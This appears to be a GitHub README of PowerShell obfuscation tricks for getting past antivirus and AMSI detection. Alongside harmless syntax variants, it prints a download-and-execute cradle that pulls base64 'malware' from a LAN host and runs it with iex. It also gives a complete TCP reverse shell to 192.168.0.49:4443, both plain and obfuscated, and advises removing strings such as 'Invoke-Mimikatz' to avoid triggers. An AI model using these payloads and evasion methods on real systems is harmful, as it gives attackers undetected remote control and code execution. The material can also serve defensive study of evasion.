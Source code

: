 # PowahShell

## Techniques
1. [Randomize Variable Names](#Randomize-Variable-Names)
2. [Obfuscate Boolean Values](#Obfuscate-Boolean-Values)
3. [Cmdlet Quote Interruption](#Cmdlet-Quote-Interruption)
4. [Substitute Loops](#Substitute-Loops)
5. [Substitute Commands](#Substitute-Commands)
6. [Append Random Objects](#Append-Random-Objects)
7. [Append/Remove Comments](#Append\/Remove-Comments)
8. [Randomize Char Cases](#Randomize-Char-Cases)

![image](https://user-images.githubusercontent.com/75489922/231490064-863ab464-84f3-4b38-9c9e-a48c23e3070c.png)

## Obfuscate Boolean Values
It's super fun and easy to replace `$True` and `$False` values with other boolean equivalents, which are literaly unlimited. All of the examples below evaluate to `True`. You can reverse them to `False` by simply adding an exclamation mark before the expression (e.g., `![bool]0x01`):
 - Boolean typecast of literally anything that is not 0 or Null will return `True`:
 ```
 [bool]1254
 [bool]0x12AE
 [bool][convert]::ToInt32("111011", 2) # Converts a string to int from base 2 (binary)
 ![bool]$null
 ![bool]$False
 [bool]"Any non empty string"
 [bool](-12354893)   # Boolean typecast of a negative number 
 [bool](12 + (3 * 6))
 ```
 - Boolean typecast of any class will return `True` as well:
 ```
 [bool][bool]
 [bool][char]
 [bool][int] 
 [bool][string]
 [bool][double]
 [bool][short]
 [bool][decimal]
 [bool][byte]
 [bool][timespan]
 [bool][datetime]
 
 [bool][System.Collections.ArrayList]
 [bool][System.Collections.CaseInsensitiveComparer]
 [bool][System.Collections.Hashtable]
 # Well, you get the point.
 ```
 - The result of a comparison that evaluates to `True` (duh):
 ```
 (9999 -eq 9999)
 ([math]::Round([math]::PI) -eq (4583 - 4580))
 [Math]::E -ne [Math]::PI
 ```

 - Boolean type casting something you know will return a value Not equal to 0 (can also be a string, array, etc)
 ```
 [bool](Get-ChildItem -Path Env: | Where-Object {$_.Name -eq "username"})
 [bool]@(0x01BE)
 ```
 - Or you can just grab a `True` value from an object's attributes:
 ```
 $x = [System.Data.AcceptRejectRule].Assembly.GlobalAssemblyCache
 $x = [System.TimeZoneInfo+AdjustmentRule].IsAnsiClass
 $x = [mailaddress].IsAutoLayout
 $x = [ValidateCount].IsVisible
 ```
 - You can mix all these stuff and weird things up by composing hideous ways to state `True` or `False`:
 ```
 [bool](![bool]$null)
 [System.Collections.CaseInsensitiveComparer] -ne [bool][datetime]'2023-01-01'
 ```
 !$False


In loops and comparisons....

## Cmdlet Quote Interruption
You can obfuscate cmdlets by adding single and/or double quotes in between their characters, as long as it's not at the beginning. It's super effective! For example, the expresion `iex "pwd"` can be substituted with:
```
i''ex "pwd"
i''e''x "pwd"
i''e''x'' "pwd"
ie''x'' "pwd"
iex'' "pwd"
i""e''x"" "pwd"
ie""x'' "pwd"

# and so on... but also:

i''ex "p''wd"
i''e''x "p''w''d"
i''e''x'' "p''w''d''"
ie''x'' "pw''d`"`""
iex'' "p`"`"w`"`"d`"`""
i""e''x"" "p`"`"w`"`"d''"
ie""x'' "p`"`"w''d`"`""

# You get the point.
```

## Substitute Loops
There are certain loops that can be substituted with other loop types or functions. For example, a `While ($True){ # some code }` loop can be substituted with the following:
 - An infinite For loop.
 ```
 For (;;) { # some code }
 ```
 - A Do-While loop
 ```
 Do { # some code } While ($true)
 ```
 - A Do-Until loop
 ```
 Do { # some code } Until (1 -eq 2)
 ```
 - A recursive function
 ```
 function runToInfinity { 
   # do something;  
   runToInfinity;
 }
 ```

## Append Random Objects
You can "pollute" a script with random variables and functions. Assume the following script as malicious:  
```
$b64 = $(irm -uri http://192.168.0.66/malware); 
$virus = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($b64));
iex $virus;
```

You might be able to break its signature by doing something like:
```
$b64 = $(irm -uri http://192.168.0.66/malware); sleep 0.01;sleep 0.01;Get-Process | Out-Null;
$virus = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($b64));sleep 0.01;sleep 0.01;Measure-Object | Out-Null;
iex $virus;
```

## Substitute Commands
You can always look for commands or even whole code blocks in a script that you can substitute with components that have the same/similar functionality. In the following classic reverse shell script, the `pwd` command is used to retrieve the current working directory and reconstruct the shell's prompt value:  
![image](https://user-images.githubusercontent.com/75489922/231549917-26ec7969-f2ea-4fbc-ae00-931e92947064.png)

The `(pwd).Path` part can be replaced by the following weird, unorthodox little script and although it includes `pwd` it does server our purpose of breaking the signature while maintaining the functionality of the script:
```
"$($p = (Split-Path `"$(pwd)\\0x00\`");if ($p.trim() -eq ''){echo 'C:\'}else{echo $p})"
```

## Append/Remove Comments
### Appending Comments
Obfuscating a script by appending comments here and there might actually do the trick on its own.  
for example, a reverse shell command could be obfuscated like this:

**Original** (Common r-shell command that is easily detected by AVs)  
```$TCPClient = New-Object Net.Sockets.TCPClient('192.168.0.49', 4443);$NetworkStream = $TCPClient.GetStream();$StreamWriter = New-Object IO.StreamWriter($NetworkStream);function WriteToStream ($String) {[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};$StreamWriter.Write($String);$StreamWriter.Flush()}WriteToStream '';while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()```

**Modified** (appended <# SOME RANDOM COMMENT #> in various places)  
```$TCPClient = New-Object <# SOME RANDOM COMMENT #> Net.Sockets.TCPClient('192.168.0.49', 4443);$NetworkStream = $TCPClient.GetStream() <# SOME RANDOM COMMENT #>;$StreamWriter = New-Object <# SOME RANDOM COMMENT #> IO.StreamWriter($NetworkStream);function WriteToStream ($String) <# SOME RANDOM COMMENT #> {[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};$StreamWriter.Write($String);$StreamWriter.Flush()}WriteToStream '';while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1); <# SOME RANDOM COMMENT #> $Output = try {Invoke-Expression $Command 2>&1 | Out-String} <# SOME RANDOM COMMENT #> catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()```

### Removing Comments
There are malware-ish strings that will trigger AMSI immediately and it should be a priority to replace them, when obfuscating scripts. Check this out:  
![image](https://user-images.githubusercontent.com/75489922/231485178-99aded23-3a7a-46ab-ab30-2a10e5e3a332.png)

Just by typing the string 'invoke-mimikatz' in the terminal AMSI is having a stroke (the script is not even present / loaded). 
These strings may be found in comments as well, so it's a good idea to remove them, especially from FOS resources you grab from the internet (e.g. `Invoke-Mimikatz.ps1` from GitHub).  
  
\*It's generally a good idea to remove comments, this was just an example.

## Randomize Char Cases
Probably the oldest trick in the book. Randomazing the character case of cmdlets and parameters might help:
```
inVOkE-eXpReSSioN -vErbOse "WHoAmI /aLL" -dEBug
```
